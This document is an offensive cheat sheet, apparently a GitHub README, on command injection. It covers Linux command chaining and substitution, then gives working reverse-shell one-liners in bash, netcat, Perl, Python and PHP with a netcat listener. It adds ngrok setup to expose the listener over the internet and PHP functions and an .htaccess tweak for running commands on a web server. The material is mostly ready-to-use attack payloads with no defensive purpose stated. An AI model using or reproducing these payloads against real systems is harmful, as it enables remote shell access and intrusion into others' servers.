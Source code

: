 ## Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)


# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

# Reverse Shell Connection

**Listening**
```
nc -lvp 8080
```

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Netcat**
```
nc -e /bin/sh 127.0.0.1 8080
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**SpawnShell**
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

# Port Forwarding
**Install And Setup Ngrok**
```
cd /tmp
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip && sudo chmod 755 /usr/bin/ngrok
sudo cp ngrok /usr/bin # (For Linux)
cp ngrok $PREFIX/bin && chmod 755 /usr/bin/ngrok (For Termux)
ngrok authtoken  tokenishere #(Token can be got at https://ngrok.com/)
```

**Start TCP Port Forwarding**
```
ngrok tcp 1234 #1234 is your custom port number
```

# Bypassing

**Max Execution Time**
>It can be bypassed with htaccess
```
<IfModule mod_php5.c>
php_value max_execution_time 300
</IfModule>
```

**PHP Functions**
```
<?php
ini_set('max_execution_time', 360);
exec('whoami');
system('whoami');
passthru('whoami');
echo shell_exec('whoami');
echo `whoami`;
$handle = popen("id", "r");
if (!$handle) {
    die("Unable to open pipe to command.");
}
while (!feof($handle)) {
    $output = fgets($handle);
    echo $output;
}
pclose($handle);
?>
```
